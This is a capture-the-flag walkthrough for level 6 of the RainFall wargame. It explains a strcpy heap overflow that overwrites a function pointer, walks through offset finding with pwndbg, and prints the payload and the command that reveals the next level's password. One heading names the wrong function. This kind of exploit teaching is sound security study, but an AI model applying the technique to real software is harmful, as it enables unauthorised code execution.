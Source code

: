 # Walkthrough for Level 6

## Understanding the Binary

The `level6` binary is vulnerable to a heap overflow attack because it uses the unsafe `strcpy` function to copy user
input into a fixed-size `buffer` without checking the input length. This allows us to overwrite adjacent memory. There
is a `function_pointer` that is initialized to point to the `m` function. There is also an `n` function that reads
level7's password, but this function is never called directly. Since the `buffer` and the `function_pointer` are
allocated sequentially, we can assume they are adjacent in memory. Therefore, if we overflow the `buffer`, we can
overwrite the `function_pointer` to point to the `n` function. When the program calls the function pointer, it will
execute the `n` function instead of the `m` function.

## The address of the `o` function

```shell
┌──(kali㉿kali)-[~/rainfall/level6]
└─$ nm ./level6 | grep "T n"
08048454 T n
```

In little-endian, this address becomes `\x54\x84\x04\x08`.

## Calculating the offset

To find the number of characters that we need to write to reach the `function_pointer`, we will use the same technique
as in [level2](../level2/walkthrough.md). First, we create a long cyclic pattern of 171 characters using
[pwndbg](https://github.com/pwndbg/pwndbg):

```shell
pwndbg> cyclic 171
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraa
```

We run the binary within `gdb` and pass the cyclic pattern as a parameter:

```shell
level6@RainFall:~$ gdb ./level6 
...SNIP...
Starting program: /home/user/level6/level6 aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraa

Program received signal SIGSEGV, Segmentation fault.
0x61616173 in ?? ()

```
We can see that the program crashes with a segmentation fault as it tries to access the invalid address `0x61616173`. 
Converting this address to big endian gives us `0x73616161`, which corresponds to the string `saaa`. This means that
part of the cyclic pattern is stored in the `buffer` variable.

Using the `cyclic -l` command, we can find the offset in the cyclic pattern that corresponds to this value. In this
case, the offset is 72 bytes.

```shell
pwndbg> cyclic -l saaa
Finding cyclic pattern of 4 bytes: b'saaa' (hex: 0x73616161)
Found at offset 72
```

## Crafting the Exploit

Our exploit will consist of 72 characters of padding followed by the address of the `n` function in little-endian format.

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x54\x84\x04\x08

## Running the exploit against the binary

We use the `-e` option of `echo` to interpret escape sequences like `\x` for hexadecimal values, which allows us to pass
the address of the `n` function. We also use `xargs` to pass the exploit as input to the `level6` binary.

```shell
level6@RainFall:~$ echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x54\x84\x04\x08' | xargs ./level6 
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

This gives us the password for `level7`, which can be used to log in via ssh.

